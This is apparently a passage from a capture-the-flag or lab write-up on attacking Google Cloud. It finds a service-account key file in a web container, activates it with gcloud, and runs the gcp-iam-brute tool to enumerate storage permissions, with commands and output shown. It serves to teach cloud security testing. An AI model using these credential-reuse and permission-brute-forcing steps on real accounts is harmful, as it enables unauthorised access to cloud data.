 ```

```

We find the credential file `keyfile.json` in `/usr/local/apache2/app`
```
root@0ff8725c7d06:/usr/local/apache2/app# ls -lha
total 16K
drwxr-xr-x 1 root     root     4.0K Jan 31  2024 .
drwxr-xr-x 1 www-data www-data 4.0K Jan 30  2024 ..
-rw-rw-r-- 1 root     root     2.5K Jan 31  2024 keyfile.json
```

We also notice that that the images in `shop/shop.html` are stored in a Google storage bucket
```
root@0ff8725c7d06:/usr/local/apache2/htdocs# cat shop/shop.html 
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
<SNIP>
   <script>
        // Sample JSON object representing the products
        const products = [
            {
                id: 1,
                title: 'Hoodie',
                description: 'The Z hoodie',
                img_url: 'https://storage.cloud.google.com/',
                price: '$69.99'
            },
<SNIP>
```

Copy credentials and log in as the service account `frontend-dev-buckets@gr-proj-1.iam.gserviceaccount.com`.
```
└─$ gcloud auth activate-service-account --key-file=keyfile.json 
Activated service account credentials for: [frontend-dev-buckets@gr-proj-1.iam.gserviceaccount.com]
```

If we try to enumerate the IAM policy, it also returns an error with our new account
```
└─$ gcloud projects get-iam-policy gr-proj-1 --format=json
ERROR: (gcloud.projects.get-iam-policy) [frontend-dev-buckets@gr-proj-1.iam.gserviceaccount.com] does not have permission to access projects instance [gr-proj-1:getIamPolicy] (or it may not exist): The caller does not have permission. This command is authenticated as frontend-dev-buckets@gr-proj-1.iam.gserviceaccount.com which is the active account specified by the [core/account] property
       
```

Let's run `gcp-iam-brute` again
```
└─$ python3 main.py --access-token $(gcloud auth print-access-token) --project-id $(gcloud config get-value project) --service-account-email $(gcloud auth list --filter=status:ACTIVE --format="value(account)")
⠏ Fuzzing...
Role: securitycenter.securityResponseServiceAgent.json
<SNIP>
⠇ Fuzzing...
Role: contentwarehouse.serviceAgent.json

{'permissions': ['storage.buckets.get', 'storage.objects.get', 'storage.objects.list']}

========================================

```
